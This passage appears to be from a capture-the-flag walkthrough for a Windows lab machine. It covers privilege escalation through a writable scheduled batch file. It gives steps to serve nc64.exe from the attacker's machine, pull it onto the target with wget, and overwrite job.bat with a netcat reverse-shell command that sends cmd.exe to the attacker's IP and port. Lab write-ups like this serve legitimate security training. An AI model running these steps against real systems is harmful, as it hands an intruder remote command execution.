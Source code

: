 We can see that the process wevtutil is running, which is the same process listed in the job.bat file. This indicates that the .bat script might be executing.

Because the target host does not have access to the Internet, we will need to deliver the nc64.exe executable through our own connection with the target. In order to do so, we will first need to download nc64.exe on our system, start up a Python HTTP server on one of our ports, then switch to the shell we have on the host to issue a wget command with our address and the nc64.exe file residing on our server. This will initialize a download from the host to our Python server for the executable. Make sure you don't switch folders after downloading the executable. The Python HTTP server needs to be running in the same directory as the location of the downloaded nc64.exe file we want to deliver to the target.

In order to download the executable on our system, we can use this link:

```
  https://github.com/int0x33/nc.exe/blob/master/nc64.exe
```

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Switching to the shell we have on the host, we can issue the download command targetting our own IP address on the VPN. Replace the {your\_IP} parameter in the command pictured below with the IP address assigned on your own machine to the tun0 interface. You can check this by running ip a or ifconfig on one of your own terminals.

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Since we have full control over the job.bat script, we will modify its' contents by running the following command. Make sure to run it from the Windows Command Line, where the daniel@MARKUP user is displayed before every command, and not from Windows PowerShell, where PS is displayed before every command. As before, make sure to change the {your\_IP} parameter with the IP address assigned to your

tun0 interface and the {port} parameter with a port of your choice, which you will listen for connections on.

```
echo C:\Log-Management\nc64.exe -e cmd.exe {your_IP} {port} > C:\Log-Management\job.bat
```
